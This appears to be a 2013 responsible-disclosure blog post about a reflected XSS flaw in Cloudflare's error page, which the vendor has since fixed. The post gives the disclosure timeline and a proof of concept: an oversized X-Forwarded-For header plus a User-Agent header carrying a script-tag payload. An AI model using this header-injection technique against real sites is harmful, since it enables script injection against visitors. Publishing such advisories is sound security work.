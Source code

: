 ```yaml
---
layout: post
title: "[DAHAX-2013-001] Cloudflare XSS Vulnerability"
date: '2013-08-15T08:00:00+10:00'
tags:
- security
- cve
- bug-bounty
- responsible-disclosure
- vulnerability
- notification
- dahax-2013-001
- dahax
- cloudflare
- xss
- x-forwarded-for
- user-agent
categories:
- devalias
tumblr_url: http://devalias.tumblr.com/post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
redirect_from: /post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
disqus: true
webmention: true
crosspost_to_medium: false
---
```

**Reference Number:** DAHAX-2013-001 (/dev/alias/hacks 2013-001)

### Notification Timeline

* 10/07/2013, Request# 38713 (https://support.cloudflare.com/anonymous_requests/new)
* 10/07/2013, Vendor looking into issue
* 16/07/2013, Updated vendor with new details (Length: 101 instead of 72)
* 16/07/2013, Vendor requested that I test again
* No response from vendor
* 01/08/2013, Tested again, vulnerability fixed
* 22/08/2013, Posted details to full-disclosure
* 22/08/2013, Vendor confirmed issue has been fixed
* 31/08/2017, [Submitted and retroactively recognised on HackerOne](https://hackerone.com/devalias) bug bounty program with swag

**Details Published:** 14/08/2013 (http://blog.devalias.net)

## What?

* Reflected XSS (cross site scripting) attack

## Where's Affected?

* Theoretically it seems that any page that uses cloudflare will be affected.
  * Eg: [http://www.cloudflare.com/](https://www.cloudflare.com/)

## How?

* **To bring up the vulnerable page**
  * Set your X-Forwarded-For header to 101+ characters
  * Eg:

```
X-Forwarded-For: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJK
```

* Load a site using cloudflare
* You should end up on "DNS Points to Prohibited IP" page
  * **To trigger the XSS**
* Set your User-Agent string to the XSS attack
  * Eg:

```
User-Agent: USER-AGENT being tested for XSS..<script>alert(''Vulnerable to XSS via USER-AGENT header [Found by devalias.net]'')</script>
```

* **The whole attack**
  * Ensure your X-Forwarded-For and User-Agent headers are configured as above
  * Navigate to a page using cloudflare
  * ???
  * Profit!

## Who?

Discovered by [Glenn 'devalias' Grant](http://www.devalias.net/) (glenn@devalias.net)

## Responsible Disclosure Notice

* Following in the footsteps of Google's vulnerability disclosure timeline, unless otherwise agreed to beforehand, I reserve the right to publicly announce the details of any discovered vulnerabilities 7 days post notification.
  * **Google's Rationale:** "Seven days is an aggressive timeline and may be too short for some vendors to update their products, but it should be enough time to publish advice about possible mitigations, such as temporarily disabling a service, restricting access, or contacting the vendor for more information. As a result, after 7 days have elapsed without a patch or advisory, we will support researchers making details available so that users can take steps to protect themselves. By holding ourselves to the same standard, we hope to improve both the state of web security and the coordination of vulnerability management." - [Google](https://googleonlinesecurity.blogspot.com.au/2013/05/disclosure-timeline-for-vulnerabilities.html)
